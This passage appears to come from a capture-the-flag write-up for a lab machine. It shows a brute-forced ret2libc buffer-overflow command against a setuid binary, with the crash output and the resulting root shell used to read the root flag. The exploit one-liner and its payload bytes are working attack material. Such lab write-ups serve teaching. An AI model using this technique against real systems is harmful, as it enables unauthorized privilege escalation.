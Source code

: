     
    www-data@october:/dev/shm$ while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
    *** Error in `/usr/local/bin/ovrflw': munmap_chunk(): invalid pointer: 0xbfeeae83 ***
    Aborted (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Illegal instruction (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    Segmentation fault (core dumped)
    # 
    

From there I can grab `root.txt`:

    
    
    # id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
    # cat /root/root.txt
    6bcb9cff...
    

[](/2019/03/26/htb-october.html)

